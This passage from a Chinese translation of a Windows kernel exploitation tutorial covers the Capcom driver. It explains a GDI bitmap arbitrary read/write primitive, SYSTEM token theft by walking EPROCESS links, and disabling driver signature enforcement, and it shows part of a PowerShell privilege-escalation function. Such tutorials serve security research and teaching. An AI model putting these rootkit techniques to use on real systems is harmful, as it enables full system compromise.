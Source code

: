 ```
    0xC3                                                                       # ret
)
```

这个技术的更多细节能在[@mwrlabs](https://twitter.com/mwrlabs)的标题[A Tale Of Bitmaps: Leaking GDI Objects Post Windows 10 Anniversary Edition](https://labs.mwrinfosecurity.com/blog/a-tale-of-bitmaps/)和我的Windows利用开发教程系列的[part 17](http://www.fuzzysecurity.com/tutorials/expDev/21.html)中找到。

<br>

**0x03 Rootkit功能**

现在我们有了内核中任意读写的能力，我们能开始完成我们的rootkit功能。我决定集中在两个不同的功能上：

1. 将任意读写的PID提升到SYSTEM权限

2. 在运行时禁用强制驱动签名，以便在内核中加载未签名的代码

**任意进程提权**

我们需要遍历EPROCESS结构链表，复制SYSTEM的EPROCESS令牌字段，并且使用这个值覆盖目标进程的EPROCESS结构。没有任何现成的漏洞，我们实际上可以在用户层泄漏一个指针指向System（PID 4）的EPROCESS入口。

[![](https://p2.ssl.qhimg.com/t0147e2eecba5505789.png)](https://p2.ssl.qhimg.com/t0147e2eecba5505789.png)

应该注意，使用SystemModuleInformation能泄漏当前加载的NT内核的基址，	只在Windows8.1后的中等完整进程中起作用。我们能在Powershell简单实现这个过程，使用Get-LoadedModules，并在KD中验证我们的结果。

[![](https://p1.ssl.qhimg.com/t0100a6caa0095fd75e.png)](https://p1.ssl.qhimg.com/t0100a6caa0095fd75e.png)

[![](https://p5.ssl.qhimg.com/t0108c32e2f36822759.png)](https://p5.ssl.qhimg.com/t0108c32e2f36822759.png)

因此我们有了一种方法，来得到System的EPROCESS结构的指针，并使用我们的bitmap原语我们能够简单的读取与那个进程相关的SYSTEM令牌。最后一件事，我们需要遍历ActiveProcessLinks链表，来找到我们想要提权的进程的EPROCESS结构。列表结构如下（Windows 10 x64）。

[![](https://p5.ssl.qhimg.com/t01e487ec7551f09c3d.png)](https://p5.ssl.qhimg.com/t01e487ec7551f09c3d.png)

这个列表是个双向循环列表。简单来说，我们将使用我们的bitmap原语来读取当前EPROCESS结构的PID，如果匹配了PID，我们将覆盖这个进程的令牌，如果不能匹配，我们从ActiveProcessLinks-&gt;Flink读取下个EPROCESS结构的地址，并重复。

EPROCESS结构是不透明的（未文档化），且不同的Windows系统会不同，但是我们能维护一个静态的偏移列表。我强烈推荐看一下[@rwfpl](https://twitter.com/rwfpl)的[Terminus Project](http://terminus.rewolf.pl/terminus/)。偷取令牌的逻辑的Powershell实现如下。



```
function Capcom-ElevatePID `{`
    param ([Int]$ProcPID)
    # Check our bitmaps have been staged into memory
    if (!$ManagerBitmap -Or !$WorkerBitmap) `{`
        Capcom-StageGDI
        if ($DriverNotLoaded -eq $true) `{`
            Return
        `}`
    `}`
    # Defaults to elevating Powershell
    if (!$ProcPID) `{`
        $ProcPID = $PID
    `}`
    # Make sure the pid exists!
    # 0 is also invalid but will default to $PID
    $IsValidProc = ((Get-Process).Id).Contains($ProcPID)
    if (!$IsValidProc) `{`
        Write-Output "`n[!] Invalid process specified!`n"
        Return
    `}`
    # _EPROCESS UniqueProcessId/Token/ActiveProcessLinks offsets based on OS
    # WARNING offsets are invalid for Pre-RTM images!
```